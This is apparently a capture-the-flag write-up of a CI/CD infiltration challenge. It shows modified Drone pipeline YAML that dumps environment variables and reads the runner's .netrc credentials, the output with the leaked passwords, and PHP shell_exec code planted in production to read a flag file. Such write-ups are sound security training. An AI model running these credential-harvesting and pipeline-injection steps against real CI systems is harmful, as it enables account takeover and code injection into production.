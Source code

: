 # GitOps (DevOps)
**After Challenge Solve**
## Challenge
```
Someone leaked their git credentials (developer:2!W4S5J$6e). How deep can you infiltrate?
This challenge uses vhosts.
Visit git.challenge.nahamcon.com:[YOUR_PORT]
Visit drone.challenge.nahamcon.com:[YOUR_PORT]
Visit web.challenge.nahamcon.com:[YOUR_PORT]

Press the Start button on the top-right to begin this challenge.
```
## Solution
As with the challenge [Poisoned](../Poisoned/README.md) the task is to infiltrate the CI Infratsructure to get malicious code into production.  
After a few tries, it became clear, that the main point is to approve the Pull Request to merge into the `main` Branch. The `README.md? states the following:
```
1. Clone the repo
2. Create a branch
3. Open a pull request
4. Ensure your code passes all the checks
5. Get someone else to approve your PR
6. Merge your changes to master
7. Our gitops system will pull your changes every minute and update the website automatically
```
![image](assets/mainREADME.PNG)
We can create the Pull Request with the leaked `developer`-user but we will be unable to approve it, until we have a second set of credentials (from the setup it can be assumed, that the second pair would be that of the drone ci)
So we need to get the crendentials.  

### Step1 - Approve PR

Logging in, into gitea, we can change the `.drone.yml` file to give us a few information.
To get the login data we could print out all environment-variables to check if there are some information hidden.

```yaml
---
kind: pipeline
type: exec
name: default
platform:
  os: linux
  arch: amd64
steps:
  - name: getEnv
    commands:
      - printenv
  - name: linting
    commands:
      - phplint --lint .
```

Unfortunately no credentials are present in the environment-variables allone

<details>
    <summary>output</summary>

```
+ printenv
DRONE_BRANCH=developer-patch-1
DRONE_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE_SYSTEM_HOST=drone.challenge.nahamcon.com:32482
GIT_COMMITTER_NAME=developer
DRONE_GIT_SSH_URL=git@localhost:JustHacking/web.git
CI_BUILD_TARGET=
GIT_AUTHOR_EMAIL=developer@noreply.localhost
CI=true
CI_BUILD_NUMBER=31
CI_BUILD_STARTED=0
DRONE_COMMIT_AUTHOR=developer
DRONE_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_REPO_NAMESPACE=JustHacking
DRONE_STAGE_OS=linux
DRONE_TARGET_BRANCH=developer-patch-1
CI_BUILD_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_GIT_HTTP_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
SHLVL=1
DRONE_COMMIT_BRANCH=developer-patch-1
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
DRONE_REPO_PRIVATE=true
DRONE_REPO_SCM=
DRONE_STAGE_TYPE=exec
DRONE_SYSTEM_PROTO=http
DRONE_STEP_NUMBER=2
GIT_AUTHOR_NAME=developer
DRONE_BUILD_STATUS=success
DRONE_REPO_VISIBILITY=private
CI_BUILD_EVENT=push
CI_PARENT_BUILD_NUMBER=0
DRONE_BUILD_ACTION=
DRONE_COMMIT_BEFORE=c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58
DRONE_STAGE_ARCH=amd64
CI_BUILD_CREATED=1651429287
CI_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
CI_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
CI_REPO_NAME=JustHacking/web
CI_COMMIT_REF=refs/heads/developer-patch-1
DRONE_SOURCE_BRANCH=developer-patch-1
DRONE_STAGE_NAME=default
DRONE_STAGE_STATUS=success
DRONE_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO_BRANCH=master
CI_BUILD_FINISHED=0
DRONE_DEPLOY_TO=
DRONE_SYSTEM_HOSTNAME=drone.challenge.nahamcon.com:32482
DRONE_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
CI_REPO=JustHacking/web
CI_COMMIT_AUTHOR_NAME=developer
DRONE_REPO_OWNER=JustHacking
DRONE_STAGE_KIND=pipeline
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CI_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32482/avatars/6199b84099dff1729dbc0b49895adb6c
DRONE=true
DRONE_BUILD_NUMBER=31
DRONE_BUILD_STARTED=1651429288
DRONE_BUILD_LINK=http://drone.challenge.nahamcon.com:32482/JustHacking/web/31
DRONE_BUILD_PARENT=0
DRONE_HOME=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_WORKSPACE=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_COMMIT_AFTER=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_STAGE_DEPENDS_ON=
DRONE_STAGE_VARIANT=
USERPROFILE=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_AUTHOR=developer
CI_REPO_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web
DRONE_STAGE_NUMBER=1
DRONE_STAGE_STARTED=1651429287
CI_COMMIT_BRANCH=developer-patch-1
CI_REPO_REMOTE=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_COMMIT=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
GIT_TERMINAL_PROMPT=0
CI_REPO_PRIVATE=true
DRONE_BUILD_EVENT=push
DRONE_BUILD_CREATED=1651429287
DRONE_COMMIT_AUTHOR_EMAIL=developer@noreply.localhost
DRONE_COMMIT_SHA=7fa184a404e1c31f960b7a5ad164b9da1fadd29c
DRONE_REPO_NAME=web
CI_BUILD_STATUS=pending
DRONE_COMMIT_REF=refs/heads/developer-patch-1
DRONE_STAGE_MACHINE=gitops-92fbced652b9e214-599685cdf7-dwpxr
GIT_COMMITTER_EMAIL=developer@noreply.localhost
PWD=/tmp/drone-5O8nHRsoCPeXIuBK/drone/src
DRONE_BUILD_FINISHED=1651429288
DRONE_COMMIT_LINK=http://git.challenge.nahamcon.com:32482/JustHacking/web/compare/c4d1611f2f8e65c569a7bcabc0b6d49a366a3a58...7fa184a404e1c31f960b7a5ad164b9da1fadd29c
HOMEPATH=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
CI_COMMIT_MESSAGE=„.drone.yml“ ändern
DRONE_REPO=JustHacking/web
DRONE_STEP_NAME=getEnv
DRONE_COMMIT_AUTHOR_NAME=developer
DRONE_SYSTEM_VERSION=2.11.0
CI_REMOTE_URL=http://git.challenge.nahamcon.com:32482/JustHacking/web.git
DRONE_STAGE_FINISHED=1651429288
```
</details>


After the challenge I found a [discourse thread](https://discourse.drone.io/t/authenticate-to-git-inside-docker-build/9516) that states `We know that Drone is using .netrc file to authenticate to repositories[...]`.  
We need to find the .netrc file.

Changing the pipeline file to revealed that a `.netrc` file is located in the directory that can be accesses by Env-Variable `$HOME`. 

Reading out the file revealed the login credentials on the gitea server for user droneci
```yaml
---
kind: pipeline
type: exec
name: default

platform:
  os: linux
  arch: amd64

steps:
  - name: getEnv
    commands:
      - printenv
      - find / -type f -name .netrc -print
      - cat $HOME/.netrc
  - name: linting
    commands:
      - phplint --lint .
```

```
+ printenv
[...]
HOME=/tmp/drone-5O8nHRsoCPeXIuBK/home/drone
[...]

+ find / -type f -name .netrc -print
/tmp/drone-5O8nHRsoCPeXIuBK/home/drone/.netrc

+ cat $HOME/.netrc
machine git.challenge.nahamcon.com login droneci password t4K0@s!qSF
```

We can check that, the credentials work in a seperate browser session  

![image](assets/LoginWithDroneci.PNG)

So Step 1 is done, the login worked, and we can check that we are able to approve a Pull Request.  
![image](assets/approvePR.PNG)

After approving the PR we can see, that there is a new commit (I merged as squash merge) in the master branch.  
![image](assets/commitedToMaster.PNG)

### Step 2 - infiltrate production

We can use the same trick as with the `.netrc`-File to locate the file `flag.txt`.  
So we change `index.php` to print out all files names `flag.txt` in the file system
![image](assets/findFlag.PNG)

After a minute we see that the flag is indeed located at `/flag.txt`
![image](assets/FlagLocation.PNG)

Now that we know where to read the information from, we can extract it, and print it on the website by defineing the php code into the `index.php`-File
```php
    <?php
        $datestr="2022-05-08 12:00:00";
        $date=strtotime($datestr);
        $diff=$date-time();
        $days=floor($diff/(60*60*24));
        $hours=round(($diff-$days*60*60*24)/(60*60));
        $minutes=round((($diff-$days*60*60*24)-$hours*60*60)/(60));

        echo "<h1>THANK YOU FOR THE FISH</h1>";
        echo shell_exec("find / -type f -name flag.txt -print");
        echo "<h1>" . shell_exec("cat /flag.txt") . "</h1>";
    ?>
```

One PR and approval later, we can see the flag printed and ready to copy.
![image](assets/Flag.PNG)

Flag: `flag{9e3dd10bb90e1ad16676470cabb20858}` 



